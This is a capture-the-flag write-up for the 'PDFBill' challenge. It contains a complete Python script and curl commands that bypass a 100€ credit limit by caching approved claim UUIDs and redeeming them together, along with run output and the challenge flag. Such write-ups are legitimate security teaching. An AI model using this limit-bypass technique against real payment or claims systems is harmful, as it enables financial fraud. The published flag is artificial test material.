



**Haix-la-Chapelle 2025**

I participated with my club team tjcsc in Haix-la-Chapelle 2025, and we got first place! 

**Challenge:** PDFBill  
**Category:** Misc  
**Flag:** ``haix{pdf_Is_w31Rd_AeFE42EdFab6C}``

---

## My initial read / first impressions

- The site is a playful “cloud bill insurance” workflow. The website UI shows three steps: you upload a PDF, then the "secretary" processess the claim, and if it is approved, the money will be credited.
- There’s a shop page with three vouchers: 20€, 80€, and a 1000€ “premium" voucher. The 1000€ is most likely what we need to buy to get the flag!
  


- There's a provided `form.pdf`, and it is a fillable AcroForm. It's highly likely the backend extracts the form data from the filled out fields.
  

*Interesting terminology...*

- There is a maximum 100€ credit limit. If you try to request a total credit amount that is greater than 100€, the secretary does not approve the claim. 
- A `/balance` endpoint returns JSON. The default starting balance is tiny (10€ on a fresh instance).
- This is a blind web/misc challenge. I tried looking around for any other vulnerabilities, but I could not successfully find any. 

Based on all of this analysis, I reached a conclusion. There is a maximum credit of 100€ enforced somewhere. The goal of this challenge is to somehow bypass it, get the total balance to at least 1000€, then buy the 1000€ voucher to get the flag. 

---

## Recon: poking endpoints

In order to gain more information about the specific enforcement of the 100€ credit limit, I curled the key endpoints to see how they behave:

- `GET /balance` gives me `{"balance":10}` on a fresh instance.
- `POST /upload` with `Content-Type: application/pdf` and the provided form returns `{"uuid": "<...>"}`.
- `POST /secretary` with `{ "uuid": "<...>" }` returns `{"money": <number>}` or an error.
- `POST /credit` with `{ "uuid": "<...>" }` finalizes the claim, and errors if the secretary hasn't checked. 
- `POST /buy` with `{ "voucher":"small"|"large"|"flag" }` buys if balance allows. 

I tested how it worked manually with the stock form:
1. Upload to get the UUID.

```
    curl -k -X POST --data-binary @form.pdf \
        -H 'Content-Type: application/pdf' \
        https://4ebbecdb5219a3cb.challs.haix-la-chapelle.eu/upload
    # → {"uuid":"<uuid>"}
```

2. Pass through the secretary to get “secretary processed”, gives me `money: <amount>`.

```
    curl -k -X POST -H 'Content-Type: application/json' \
        -d '{"uuid":"<uuid>"}' \
        https://4ebbecdb5219a3cb.challs.haix-la-chapelle.eu/secretary
    # → {"message":"Secretary processed","money":<amount>}
```

3. Claim is credited “Credit department processed…”, and balance goes up.

```
    curl -k -X POST -H 'Content-Type: application/json' \
        -d '{"uuid":"<uuid>"}' \
        https://4ebbecdb5219a3cb.challs.haix-la-chapelle.eu/credit
    # → {"message":"Credit department processed the bill"}
```

Then I intentionally trip the limit by pushing balance over 100 €:
- secretary starts replying: `{"message":"Limit reached!","workflowMessage":"Please update to ... more than 100€. "}`

```
    curl -k -X POST -H 'Content-Type: application/json' \
        -d '{"uuid":"<new uuid>"}' \
        https://4ebbecdb5219a3cb.challs.haix-la-chapelle.eu/secretary
    # → {"message":"Limit reached!","workflowMessage":"Please update ... more than 100€."}
```
- Upload may also refuse if the flow is blocked.

```
    curl -k -X POST --data-binary @form.pdf \
        -H 'Content-Type: application/pdf' \
        https://4ebbecdb5219a3cb.challs.haix-la-chapelle.eu/upload
    # (Sometimes still succeeds, but can 403 if flow is blocked)
```

Aha! Here's an important observation: The **100€ cap is enforced inside `/secretary`**, not `/credit`. We can use this to our advantage...

---

## Critical bug hypothesis

- If a UUID is *approved* by secretary, `/credit` does not re-check the limit.
- So, if I can keep the *live* balance below 100€ while calling `/secretary`, I can stockpile many *approved* UUIDs.
- Later, I can call `/credit` on all cached UUIDs: the limit is not checked there, so balance can go up!


---

## Inspecting the PDF form

I peek inside `form.pdf`:
- Fields: `invoiceDate`, `invoiceID`, `invoiceTotalMoney`.
- There are checkboxes but backend seems to care only about these text fields.
- I can set `invoiceTotalMoney` arbitrarily (positive or negative), which is useful to lower balance if needed.

---

## Tooling: automation script

To avoid manual tedium and deal with resets/timeouts, I wrote `ez_money.py` (PyPDF2 + requests):
- Fill `form.pdf` with:
  - `invoiceDate`: arbitrary, doesn't really matter (fixed date).
  - `invoiceID`: unique per claim (e.g., incremental).
  - `invoiceTotalMoney`: default 20 (small, easy to repeat).
- Upload with `Content-Type: application/pdf`.
- Call `/secretary` to get `money` and cache the UUID in `uuid_cache.json` under `pending`.
- Later, call `/credit` on all `pending` UUIDs; move them to `redeemed`.

Here is my complete solve script:
```python
#!/usr/bin/env python3
import argparse
import json
import math
from pathlib import Path

import requests
from PyPDF2 import PdfReader, PdfWriter

def log(msg):
    print(msg, flush=True)

def load_form(path):
    return PdfReader(str(path))

def make_pdf(template_reader, invoice_id, amount, output_path):
    writer = PdfWriter()
    writer.append_pages_from_reader(template_reader)
    writer.update_page_form_field_values(
        writer.pages[0],
        {
            "invoiceDate": "2025-11-29",
            "invoiceID": invoice_id,
            "invoiceTotalMoney": str(amount),
        },
    )
    with open(output_path, "wb") as f:
        writer.write(f)

def http_session(base_url):
    sess = requests.Session()
    sess.verify = False 
    sess.base_url = base_url.rstrip("/")
    return sess

def maybe_load_existing(file_path):
    if file_path.exists():
        data = json.loads(file_path.read_text())
        if isinstance(data, dict):
            data.setdefault("pending", [])
            data.setdefault("redeemed", [])
            return data
        # legacy format list -> treat all as pending
        return {"pending": list(data), "redeemed": []}
    return {"pending": [], "redeemed": []}

def save_uuids(file_path, state):
    file_path.write_text(json.dumps(state, indent=2))

def get_balance(sess):
    return sess.get(f"{sess.base_url}/balance").json()["balance"]

def upload(sess, pdf_path):
    with open(pdf_path, "rb") as f:
        res = sess.post(
            f"{sess.base_url}/upload",
            data=f.read(),
            headers={"Content-Type": "application/pdf"},
        )
    res.raise_for_status()
    return res.json()["uuid"]

def secretary(sess, uuid):
    res = sess.post(f"{sess.base_url}/secretary", json={"uuid": uuid})
    res.raise_for_status()
    return res.json()["money"]

def credit(sess, uuid):
    res = sess.post(f"{sess.base_url}/credit", json={"uuid": uuid})
    res.raise_for_status()

def collect(sess, template_reader, per_claim, target_balance, store_file, state):
    log(
        f"[+] Loaded {len(state['pending'])} pending / {len(state['redeemed'])} redeemed UUIDs"
    )

    current_balance = get_balance(sess)
    log(f"[+] Current balance: {current_balance} EUR")
    needed = max(0, target_balance - current_balance - len(state["pending"]) * per_claim)
    log(f"[+] Need {needed} EUR more credits queued")

    invoice_counter = len(state["pending"]) + len(state["redeemed"])
    while needed > 0:
        invoice_counter += 1
        invoice = f"INV-AUTO-{invoice_counter:04d}"
        tmp_pdf = Path("tmp_autofill.pdf")
        make_pdf(template_reader, invoice, per_claim, tmp_pdf)
        uuid = upload(sess, tmp_pdf)
        money = secretary(sess, uuid)
        log(f"    [collect] #{invoice_counter} uuid={uuid[:8]} money={money}")
        state["pending"].append(uuid)
        save_uuids(store_file, state)
        needed -= per_claim

    log(f"[+] Collection done ({len(state['pending'])} pending saved in {store_file})")

def redeem(sess, store_file, state, per_claim):
    if not state["pending"]:
        log("[+] No pending UUIDs to redeem.")
        return

    redeemed = 0
    pending = list(state["pending"])
    for idx, uuid in enumerate(pending, 1):
        credit(sess, uuid)
        redeemed += per_claim
        balance = get_balance(sess)
        log(f"    [redeem] {idx}/{len(pending)} -> balance {balance} EUR")
        state["redeemed"].append(uuid)
        if state["pending"]:
            state["pending"].pop(0)
        save_uuids(store_file, state)
    log("[+] Redemption phase complete")

def main():
    parser = argparse.ArgumentParser(description="Mass-credit CloudCushion.")
    parser.add_argument("base_url", help="Challenge base URL")
    parser.add_argument(
        "--target",
        type=int,
        default=1000,
        help="Desired final balance (default: 1000 EUR)",
    )
    parser.add_argument(
        "--per-claim",
        type=int,
        default=20,
        help="Amount per generated claim (default: 20 EUR)",
    )
    parser.add_argument(
        "--uuid-store",
        type=Path,
        default=Path("uuid_cache.json"),
        help="Where to persist collected UUIDs",
    )
    mode_group = parser.add_mutually_exclusive_group()
    mode_group.add_argument(
        "--only-collect",
        action="store_true",
        help="Only collect UUIDs (do not redeem).",
    )
    mode_group.add_argument(
        "--only-redeem",
        action="store_true",
        help="Only redeem already collected UUIDs.",
    )
    args = parser.parse_args()

    template_reader = load_form(Path("form.pdf"))
    sess = http_session(args.base_url)
    state = maybe_load_existing(args.uuid_store)

    if not args.only_redeem:
        collect(
            sess,
            template_reader,
            args.per_claim,
            args.target,
            args.uuid_store,
            state,
        )

    if not args.only_collect:
        redeem(sess, args.uuid_store, state, args.per_claim)
        log(f"[+] Final balance: {get_balance(sess)} EUR")

if __name__ == "__main__":
    main()
```

Output:
```bash
(base) Snowbird91: PDFBill$ PYTHONPATH=deps python3 ez_money.py https://ffc9d98cd381e511.challs.haix-la-chapelle.eu --target 1000
[+] Loaded 0 pending / 0 redeemed UUIDs
[+] Current balance: 70 EUR
[+] Need 930 EUR more credits queued
    [collect] #1 uuid=b5754f75 money=20
    [collect] #2 uuid=ccb1d912 money=20
    [collect] #3 uuid=73fefc8d money=20
    [collect] #4 uuid=d6d795e0 money=20
    [collect] #5 uuid=d2f8c397 money=20
    [collect] #6 uuid=2c350481 money=20
    [collect] #7 uuid=a4bd2d41 money=20
    [collect] #8 uuid=4728f629 money=20
    [collect] #9 uuid=c9497718 money=20
    [collect] #10 uuid=93307906 money=20
    [collect] #11 uuid=7c2779c9 money=20
    [collect] #12 uuid=dad19f0d money=20
    [collect] #13 uuid=e17407ba money=20
    [collect] #14 uuid=bda2a78f money=20
    [collect] #15 uuid=b9ca20b1 money=20
    [collect] #16 uuid=20fde6cf money=20
    [collect] #17 uuid=cd8b3b53 money=20
    [collect] #18 uuid=783f3aaf money=20
    [collect] #19 uuid=d6fddecc money=20
    [collect] #20 uuid=72f9b8f1 money=20
    [collect] #21 uuid=ef2fbd6c money=20
    [collect] #22 uuid=d9d745e6 money=20
    [collect] #23 uuid=8bd204ed money=20
    [collect] #24 uuid=f17995cf money=20
    [collect] #25 uuid=e9f720fc money=20
    [collect] #26 uuid=f71741c9 money=20
    [collect] #27 uuid=9fa983d1 money=20
    [collect] #28 uuid=6feecc0b money=20
    [collect] #29 uuid=a05afd39 money=20
    [collect] #30 uuid=ef1f672d money=20
    [collect] #31 uuid=7e1d5499 money=20
    [collect] #32 uuid=a00c1edc money=20
    [collect] #33 uuid=3e00dd0a money=20
    [collect] #34 uuid=e590a607 money=20
    [collect] #35 uuid=24c90e4f money=20
    [collect] #36 uuid=d97540c1 money=20
    [collect] #37 uuid=323497ec money=20
    [collect] #38 uuid=b189bfd0 money=20
    [collect] #39 uuid=8fb211ab money=20
    [collect] #40 uuid=34874512 money=20
    [collect] #41 uuid=4bded271 money=20
    [collect] #42 uuid=ddd56481 money=20
    [collect] #43 uuid=aa9a8fbf money=20
    [collect] #44 uuid=463ec2e2 money=20
    [collect] #45 uuid=61c1c311 money=20
    [collect] #46 uuid=7f146cec money=20
    [collect] #47 uuid=8a065e0a money=20
[+] Collection done (47 pending saved in uuid_cache.json)
    [redeem] 1/47 -> balance 90 EUR
    [redeem] 2/47 -> balance 110 EUR
    [redeem] 3/47 -> balance 130 EUR
    [redeem] 4/47 -> balance 150 EUR
    [redeem] 5/47 -> balance 170 EUR
    [redeem] 6/47 -> balance 190 EUR
    [redeem] 7/47 -> balance 210 EUR
    [redeem] 8/47 -> balance 230 EUR
    [redeem] 9/47 -> balance 250 EUR
    [redeem] 10/47 -> balance 270 EUR
    [redeem] 11/47 -> balance 290 EUR
    [redeem] 12/47 -> balance 310 EUR
    [redeem] 13/47 -> balance 330 EUR
    [redeem] 14/47 -> balance 350 EUR
    [redeem] 15/47 -> balance 370 EUR
    [redeem] 16/47 -> balance 390 EUR
    [redeem] 17/47 -> balance 410 EUR
    [redeem] 18/47 -> balance 430 EUR
    [redeem] 19/47 -> balance 450 EUR
    [redeem] 20/47 -> balance 470 EUR
    [redeem] 21/47 -> balance 490 EUR
    [redeem] 22/47 -> balance 510 EUR
    [redeem] 23/47 -> balance 530 EUR
    [redeem] 24/47 -> balance 550 EUR
    [redeem] 25/47 -> balance 570 EUR
    [redeem] 26/47 -> balance 590 EUR
    [redeem] 27/47 -> balance 610 EUR
    [redeem] 28/47 -> balance 630 EUR
    [redeem] 29/47 -> balance 650 EUR
    [redeem] 30/47 -> balance 670 EUR
    [redeem] 31/47 -> balance 690 EUR
    [redeem] 32/47 -> balance 710 EUR
    [redeem] 33/47 -> balance 730 EUR
    [redeem] 34/47 -> balance 750 EUR
    [redeem] 35/47 -> balance 770 EUR
    [redeem] 36/47 -> balance 790 EUR
    [redeem] 37/47 -> balance 810 EUR
    [redeem] 38/47 -> balance 830 EUR
    [redeem] 39/47 -> balance 850 EUR
    [redeem] 40/47 -> balance 870 EUR
    [redeem] 41/47 -> balance 890 EUR
    [redeem] 42/47 -> balance 910 EUR
    [redeem] 43/47 -> balance 930 EUR
    [redeem] 44/47 -> balance 950 EUR
    [redeem] 45/47 -> balance 970 EUR
    [redeem] 46/47 -> balance 990 EUR
    [redeem] 47/47 -> balance 1010 EUR
[+] Redemption phase complete
[+] Final balance: 1010 EUR
(base) Snowbird91: PDFBill$
```
*Note: I started out with 70€ instead of 10€, which is why the initial balance is higher and thus less UUIDs are generated.*

Here are some screenshots that I took when I got excited the exploit was **finally** working:


*haha, 6 7*




*woo hoo! we made it*

---

# Final results
So, after reaching 1010€, I was ready to buy the expensive "premium" voucher. After buying it:



Nice! That was a fun and rewarding challenge! The flag as shown is ``haix{pdf_Is_w31Rd_AeFE42EdFab6C}``.